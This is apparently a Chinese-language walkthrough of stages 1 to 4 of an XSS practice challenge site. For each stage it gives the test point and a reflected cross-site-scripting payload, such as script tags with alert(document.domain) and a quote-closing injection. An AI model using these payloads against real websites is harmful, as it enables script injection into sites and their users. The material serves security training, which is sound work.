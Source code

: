 

## XSS Challenges

### Stage #1

#### 考点：直接注入

#### 思考：

**payload：**

```
<script>alert(/xss/)</script>
```



### Stage #2

#### 考点：双引号闭合

#### 思考：

**payload：**

```
"><script>alert(document.domain);</script>
```



### Stage #3

#### 考点：寻找注入点

#### 思考：

实验发现文本框不能正常注入，所以选择国家的框进行注入XSS

**payload：**

```
将Japan改为：<script>alert(document.domain);</script>	//文本框随便输入即可
```



### Stage #4

#### 考点：找到隐藏点

#### 思考：

查看源码发现\<input\>标签有一个type为“hidden”，修改为text，再在这个输入框注入

**payload：**

```
"><script>alert(document.domain);</script>
```
